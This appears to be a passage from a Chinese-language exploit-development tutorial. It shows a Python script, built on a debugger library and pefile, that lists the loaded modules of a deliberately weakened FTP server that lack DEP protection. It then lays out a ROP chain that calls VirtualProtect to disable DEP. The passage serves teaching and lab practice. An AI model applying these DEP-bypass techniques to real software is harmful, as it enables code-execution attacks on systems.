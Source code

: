     from LyScript32 import MyDebug
    import pefile
    
    if __name__ == "__main__":
        # 初始化
        dbg = MyDebug()
        dbg.connect()
        
        # 得到所有加载过的模块
        module_list = dbg.get_all_module()
        for module_index in module_list:
            # 依次读入程序所载入的模块
            byte_array = bytearray()
            for index in range(0, 4096):
                read_byte = dbg.read_memory_byte(module_index.get("base") + index)
                byte_array.append(read_byte)
    
            oPE = pefile.PE(data=byte_array)
            # 数据不可执行 DEP => hex(pe.OPTIONAL_HEADER.DllCharacteristics) & 0x100 == 0x100
            if ((oPE.OPTIONAL_HEADER.DllCharacteristics & 256) != 256):
                print("{:15}\t\t".format(module_index.get("name")), end="")
                print("可利用\t\t\t",end="")
    
            print()
        dbg.close()
    

将`FTPServer.exe`拖入调试器内，并执行上方脚本，则可输出当前没有开启DEP保护的模块，例如代码中我故意编译进去了`network.dll`模块，该模块就没有开启DEP保护，那么就可被利用；

![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712085048806-1765714754.png)

接下来就是构建一条可以实现关闭DEP内存保护的汇编指令集，如下所示则是通过汇编语言调用`virtualProtect`的ROP链；

    ret
    pop eax
    0xfffffcdf
    add ebp, eax
    pop eax
    0xfffffdff
    neg eax
    pop ebx
    0xffffffff
    inc ebx
    add ebx, eax
    pop edx
    0xffffffc0
    neg edx
    pop ecx
    &writetable
    pop edi
    ret (rop nop)
    pop esi
    jmp [eax]
    pop eax
    ptr to virtualProtect()
    jmp esp
    